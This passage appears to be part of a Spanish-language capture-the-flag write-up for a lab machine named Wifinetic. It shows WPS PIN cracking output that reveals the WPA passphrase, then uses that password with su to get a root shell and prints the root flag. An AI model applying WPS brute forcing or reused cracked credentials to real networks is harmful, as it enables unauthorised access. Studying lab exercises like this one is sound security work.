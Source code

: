 ```bash
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 6 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```

- Vemos que tenemos el `PIN` y la `Password`.

## Shell as root and root.txt

- Si migramos al usuario `root` con la contraseña funciona.

```bash
netadmin@wifinetic:/$ su root
Password:
root@wifinetic:/# whoami
root
root@wifinetic:/#
```

- Vemos la flag.

```bash
root@wifinetic:~# cat root.txt
82e27401ce5bb1d85196562913c72da9
```
